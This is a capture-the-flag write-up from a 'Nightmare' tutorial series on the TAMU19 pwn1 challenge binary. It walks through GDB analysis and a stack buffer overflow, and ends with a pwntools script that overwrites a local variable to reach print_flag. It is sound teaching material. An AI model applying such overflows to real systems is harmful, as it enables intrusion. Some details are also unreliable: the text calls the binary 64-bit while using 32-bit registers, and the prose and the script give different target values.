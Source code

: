 ```yaml
---
title: Nightmare Series - Stack Smashing (Part 2)
categories:
  - Blog
tags:
  - Reversing
  - Exploits
published: false
---
```


## **File** 04-bof_variable/tmau19_pwn1

## **File Analysis**
Basic analysis of the file confirms it is an 64 bit ELF file and again in this case shows us that it is not stripped therefore symbols are again available.
![](/assets/images/stacksmashing01_nightmare_04_tamu19_pwn1/file_check.png)

Running the file presents us a basic prompt for input which on testing errors and exits out. This give us a clue that the binary expects a certain input answer.
![](/assets/images/stacksmashing01_nightmare_04_tamu19_pwn1/prompt.png)

## **Basic Reverse Engineering**
Using GDB we can see the following high level main function flow:
 - Basic function prologue
 - 2x function calls to 'puts' for initial prompts
 - Several resulting combinations of 'fgets' and 'puts' function calls for user input and further prompts
 - Several conditional jumps after each input is compared to saved value using 'strncmp' function
 - Final comparison to hardcoded value before calling 'print_flag' function
 - Epilogue and exit

From looking at the overall logic, we can see that several inputs are required to make it through various layers or answers before we can reach the 'call print_flag' instruction.

![](/assets/images/stacksmashing01_nightmare_04_tamu19_pwn1/main_pt1.png)

First Answer
Checking out the first chain of function calls, we see an 'fgets' followed by 'strncmp'. The value read in by 'fgets' is in this case stored in the location EBP-0x3b as is shown in the ```LEA EAX, [EBp-0x3b]; PUSH EAX;``` set of instructions (based on CDECL calling conventions) being the second parameter to the 'fgets' function call.

The following block of instructions sets up the variables for the function 'strncmp' which is comparing a saved string value to that which was passed in via the user. The value here is located at offset EBX-0x159f. We can place a quick breakpoint on the previous instruction and  when reached, print the string value contained at the offset giving us our first answer!

![](/assets/images/stacksmashing01_nightmare_04_tamu19_pwn1/first_answer.png)

We're then greeted with a another prompt for an answer which we can see from the corresponding instruction blocks contains subsequent calls to 'fgets' again followed by 'strncmp', this time with a saved value at offset EBX-0x154d. Following the same routine as above we can print this value using GDB by placing a break point on the instruction just before and view the saved string value the binary expects. We now have our second answer!

![](/assets/images/stacksmashing01_nightmare_04_tamu19_pwn1/main_pt2.png)

At this point we have made it to the third question and this time the input is being compared directly with a hardcoded value of '0xdae110c8' thus controlling the conditional CMP/JNE instruction combination which allows us to reach the 'print_flag' function call or not.

The value is being compared directly with the offset EBP-0x10 on the stack. This is interesting because since if we look back, our previous input answer to this question is loaded (as all others were) at offset EBP-0x3b on the stack. This gives us a nice opportunity to again overflow the stack variable on our final answer, overwrite the location to ensure it contains the expected value and get our flag!

![](/assets/images/stacksmashing01_nightmare_04_tamu19_pwn1/stack_diagram.png)

## **Exploit**

In this example, for the exploit to succeed we have to send all of the correct answers we have obtained in the appropriate order including the final exploit answer. The amount of padding data (0x3b-0x10 = 0x2b(43)bytes) required for our last answer followed by our overwrite payload value of '0xdae110c8' will be written to the stack. This should ensure the binary passes the conditional comparison and reaches the 'print_flag' function call instruction. We can receive the output, which contains our flag.

```
from pwn import *

pty = process.PTY
target = process('./pwn1',stdin=pty, stdout=pty)
#Setup responses
string1='Sir Lancelot of Camelot'
string2='To seek the Holy Grail.'
#Final exploit responde to overwrite stack location with our controlled value
string3=b'A'*43+p32(0xdea110c8)

# Start the target process
#target = process('./pwn1')

#Recieve first output lines
print(target.recvline(timeout=5))
print(target.recvline(timeout=5))
#Send first answer
target.sendline(string1)

#Second output
print(target.recvline(timeout=5))
#Second answer
target.sendline(string2)

#Third output
print(target.recvline(timeout=5))
#Send third answer including exploit payload
target.sendline(string3)
print(target.recvall())
```

![](/assets/images/stacksmashing01_nightmare_04_tamu19_pwn1/exploit_run.png)
